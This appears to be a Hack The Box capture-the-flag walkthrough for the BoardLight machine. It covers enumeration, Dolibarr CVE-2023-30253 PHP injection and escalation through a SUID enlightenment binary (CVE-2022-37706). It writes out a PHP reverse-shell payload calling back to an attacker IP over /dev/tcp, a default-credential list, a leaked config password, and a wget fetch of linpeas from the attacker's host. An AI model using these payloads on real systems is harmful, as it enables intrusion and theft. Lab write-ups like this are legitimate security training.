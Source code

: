 # BoardLight

BoardLight is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.11   board.htb" | sudo tee -a /etc/hosts
```
![website](./assets/images/website.png)


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **directory research**.

![gobuster](./assets/images/gobuster.png)

Nothing of interest, but we can do a **subdomains** research.

![subdomains](./assets/images/subdomains.png)

And we found one! Let's add it to our **hosts** file and browse to it.

```bash
echo "10.10.11.11   crm.board.htb" | sudo tee -a /etc/hosts
```

![crm_website](./assets/images/crm_website.png)

## Foothold

A login form, first we can test some default creditentials like:
- `admin:admin`
- `admin:password`
- `admin:123456`
- `administrator:administrator`
- `root:root`

![crm_dashboard](./assets/images/crm_dashboard.png)

As we had seen before, the version for Dolibarr is `17.0.0` which is vulnerable to the [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253). And see [this](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) website for the proof of concept.

So we can inject php code with the template `<?PHP.....?>` in a page to gain access with a reverse shell. So we need:
- to create a new website
- create a page
- modify the html code to inject the php code
- setup a netcat listener
- access the page to execute the code.

So go in the website tab and click on the plus sign.

![create_website](./assets/images/create_website.png)

Give it a name and click on the create button.

![name_new_website](./assets/images/name_new_website.png)

Click on the plus sign to create a page, give it a name and click on the create button again.

![create_page](./assets/images/create_page.png)

Setup a netcat listener and edit the html code.

![edit_html](./assets/images/edit_html.png)

And in the html code paste this payload `<?PHP system("bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'");?>`. And click on this icon to preview the page.

![preview_page](./assets/images/preview_page.png)

And normally you should have a connection on your netcat!

![netcat_connection](./assets/images/netcat_connection.png)

Let's stabilize our shell first.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```
## User flag

We are connected as the `www-data` user. And we don't have any password to try and connect to other user. So let's explore the file of the website. And in `~/html/crm.board.htb/htdocs/conf` we found a file named `conf.php`. If we cat it we found a password: `serverfun2$2023!!`.
In the `etc/passwd` file we found a user named `larissa`. We can try to login a this user with the password we just found.

![user_flag](./assets/images/user_flag.png)

## Root flag

To find a flaw to exploit to access root privilege we are gonna use `linpeas.sh`. It's a script to enumerate linux distribution and help you to find potential vulnerability. [Download it](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on your local machine and setup a python web server where you have download `linpeas.sh`.

```bash
python3 -m http.server 8000
```

On the remote machine execute this command:

```bash
wget http://YOUR_IP:8000/linpeas.sh
```

And execute linpeas.sh, `sh linpeas.sh`. There is a LOT of information but one is more important that other.

![enlightenment](./assets/images/enlightenment.png)

it's a script with the SUID set. So we can execute it as root! And if we check it's version with:

```bash
enlightenment --version
```
![version](./assets/images/version.png)

After a little reseach this version is vulnerable with the [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706) and there is a proof of exploit [here](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit). Download it and import it to your remote session with the same method as earlier. 

![root_flag](./assets/images/root_flag.png)